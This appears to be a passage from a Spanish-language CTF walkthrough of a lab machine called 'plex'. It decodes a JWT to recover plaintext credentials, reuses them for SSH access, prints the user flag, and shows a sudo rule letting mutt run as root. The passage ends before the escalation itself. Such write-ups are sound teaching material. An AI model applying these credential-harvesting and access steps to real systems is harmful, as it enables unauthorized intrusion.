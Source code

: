 ```shell
echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiIiLCJpYXQiOm51bGwsImV4cCI6bnVsbCwiYXVkIjoiIiwic3ViIjoiIiwiaWQiOiIxIiwidXNlcm5hbWUiOiJtYXVybyIsInBhc3N3b3JkIjoibUB1UjAxMjMhIn0.zMeVhhqARJ6YzuMtwahGQnegFDhF7r0BCPf3H9ljDIk' \
| cut -d '.' -f2 \
| base64 -d \
| jq .
```

Info:

```
{
  "iss": "",
  "iat": null,
  "exp": null,
  "aud": "",
  "sub": "",
  "id": "1",
  "username": "mauro",
  "password": "m@uR0123!"
}
```

Veremos que contiene un nombre de usuario y contraseña en texto plano, por lo que vamos a acceder directamente desde `SSH` a ver si hay suerte.

### SSH

```shell
ssh mauro@<IP>
```

Metemos como contraseña `m@uR0123!` y veremos que estaremos dentro.

```
mauro@plex:~$ whoami
mauro
```

Por lo que vamos a leer la `flag` del usuario.

> user.txt

```
05135a0133cbb692dc66761e5d99364a
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for mauro on plex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mauro may run the following commands on plex:
    (root) NOPASSWD: /usr/bin/mutt
```
